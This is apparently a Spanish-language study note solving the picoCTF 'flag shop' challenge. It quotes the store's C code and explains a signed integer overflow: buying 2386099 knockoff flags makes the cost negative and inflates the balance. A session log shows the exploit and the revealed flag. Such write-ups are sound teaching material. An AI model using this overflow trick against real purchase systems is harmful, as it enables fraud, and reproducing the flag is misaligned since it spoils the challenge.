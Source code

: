 #notas_hacking #general_skills #examen
# Reto
## Descripción
There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/64e724ad327f83ad833d9c6baa072b1f/store.c). Connect with `nc jupiter.challenges.picoctf.org 4906`.
## Solución
Parece ser que hay un error en el código que maneja las banderas imitación, este actualiza el `account_balance` pues directamente  le resta el `total_cost`.
```c
int auction_choice;
fflush(stdin);
scanf("%d", &auction_choice);
if(auction_choice == 1){
	printf("These knockoff Flags cost 900 each, enter desired quantity\n");
	int number_flags = 0;
	fflush(stdin);
	scanf("%d", &number_flags);
	if(number_flags > 0){
		int total_cost = 0;
		total_cost = 900*number_flags;
		printf("\nThe final cost is: %d\n", total_cost);
		if(total_cost <= account_balance){
			account_balance = account_balance - total_cost;
			printf("\nYour current balance after transaction: %d\n\n", account_balance);
		}
		else{
			printf("Not enough funds to complete purchase\n");
		}
	}
}
```
un entero en `C` solo maneja hasta un valor de `2,147,483,647`, entonces lo desbordamos al multiplicar con 900 un valor lo suficiente grande, que hace que el bit que identifica el signo se active y se vuelva negativo.
Cuando llega a la resta, resta con un valor negativo por lo que termina sumando ese valor `account_balance = account_balance - total_cost;`
```bash
Welcome to the flag exchange
We sell flags

1. Check Account Balance
2. Buy Flags
3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2386099

The final cost is: -2147478196

Your current balance after transaction: 2147479296

Welcome to the flag exchange
We sell flags

1. Check Account Balance
2. Buy Flags
3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_9c5fac9b}
```
## Notas

## Referencias
